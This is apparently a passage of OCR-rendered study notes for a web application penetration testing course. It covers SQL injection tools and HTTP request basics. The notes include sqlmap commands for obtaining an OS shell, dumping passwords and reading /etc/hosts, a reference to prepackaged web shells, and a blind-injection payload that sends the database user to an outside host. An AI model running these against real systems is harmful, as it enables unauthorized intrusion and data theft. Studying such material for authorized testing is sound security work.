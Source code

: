   ```
  - Local or remote file (makes use of file handling techniques mentioned above)
- Prepared injection files (To obtain shell access of remote server)
  - Laudanum is a collection of pre-packaged shells (phpshell, ajaxshell, etc.)
- Tools: sqlmap, TamperData (Firefox extension)
  - ./sqlmap.py –u [http://www.example.com/app/file?key=value](http://www.example.com/app/file?key=value) --os-shell
  - Use this tool on all form fields, GET &amp; POST data, hidden links, AJAX / WebSocket, etc.
  - Options: --os-shell, --users, --passwords, --schema, --file-read=/etc/hosts
  - --priv-esc - increases privs of the DB
  - integrates with Metasploit
  - python based
- Blind SQL Injection: Results are not displayed to client (Benchmark() for MySQL and waitfor() for MS SQL server)
  - URL parameter:  **UTL_HTTP.request('remoteserver.com:80'||(SECECT user from DUAL)--**
  - Blind SQLi Tools: BBQSQL (binary &amp; frequency search), SQLMap à both tools in python

------


#### Understanding the Web and HTTP**

Goal: The candidate will demonstrate an understanding of the fundamentals web applications and their architecture and a thorough comprehension of the HTTP protocol

- Web App pen test methodology must be Proven, Repeatable and Explainable
- Need permission to perform security tests
- Server architectures: Web, App &amp; Dynamic servers &amp; proxy servers
- HTTP 1.0/1.1/2.0 (stateless in any version)
  - 0 uses binary protocol; based on Google SPDY; Push based; Multiplexed
- HTTP methods: GET, POST, HEAD, TRACE, OPTIONS, _CONNECT, PUT, DELETE_
- robots.txt file is always a good file to zero in on sensitive data
- HTTP Request:

```
GET /resource HTTP 1.1

HOST: www.sans.org

Accept: \*/\*

Accept-Language: en-us

User-Agent: Mozilla/4.0 (Indicates browser compliant with historical standards) à identifies the client to the server

(5.1 = XP; 5.2=XP 64-bit/Win 2003; 6.0=Vista/2008; 6.1=7/2008 R2; 6.2=8/2012; 6.3=;8.1/2012 R2)

Proxy-connection: Keep-Alive

Cookie: key=value

Content-Length: 0
```



-  HTTP Response

```
HTTP/1.1 200 OK
